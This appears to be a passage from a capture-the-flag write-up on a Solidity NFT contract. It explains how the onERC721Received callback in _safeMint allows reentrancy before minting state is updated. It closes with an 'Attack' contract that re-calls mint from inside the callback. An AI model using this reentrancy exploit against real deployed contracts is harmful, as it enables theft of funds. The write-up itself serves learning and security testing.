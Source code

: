 ```js
function _safeMint(address to, uint256 tokenId, bytes memory data) internal virtual {
        _mint(to, tokenId);
        deposits[to] = msg.value;
        _checkOnERC721Received(address(0), to, tokenId, data);
    }
```

The _safeMint function is called whenever we mint a new aNyTF token. This seems to be the only way to update the deposits value. However, it only is able to set our deposits value to the amount of ether we specify when minting a new token. This means that we need to find some way to mint a token with a value of 11 ether. 

Interestingly, there is a known reentrancy exploit in ERC721 tokens that can allow us to mint as many tokens as we want. 

```js
function _checkOnERC721Received(address from, address to, uint256 tokenId, bytes memory data) private {
        if (to.code.length > 0) {
            try IERC721Receiver(to).onERC721Received(msg.sender, from, tokenId, data) returns (bytes4 retval) {
                if (retval != IERC721Receiver.onERC721Received.selector) {
                    revert ERC721InvalidReceiver(to);
                }
            } catch (bytes memory reason) {
                if (reason.length == 0) {
                    revert ERC721InvalidReceiver(to);
                } else {
                    /// @solidity memory-safe-assembly
                    assembly {
                        revert(add(32, reason), mload(reason))
                    }
                }
            }
        }
    }
```

In this function, which is called in the _safeMint function, we can see that the `onERC721Received` function is called on the to address. This means that we can create a contract that implements the `onERC721Received` function and then call the _safeMint function with the address of our contract as the to address. This will call the `onERC721Received` function in our contract and allow us to recall the mint function before `createdNFT[msg.sender] = true;` is updated.

```ts
contract Attack is IERC721Receiver{
    aNyFT public  anyFT;
    bytes4 private constant _ERC721_RECEIVED = IERC721Receiver.onERC721Received.selector;
    uint256[] public tokenIds;

    constructor (address _addr) {
        anyFT = aNyFT(_addr);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        anyFT.mint("bruh");
        emit ERC721Received(operator, from, tokenId, data);
        return _ERC721_RECEIVED;
    }
}
```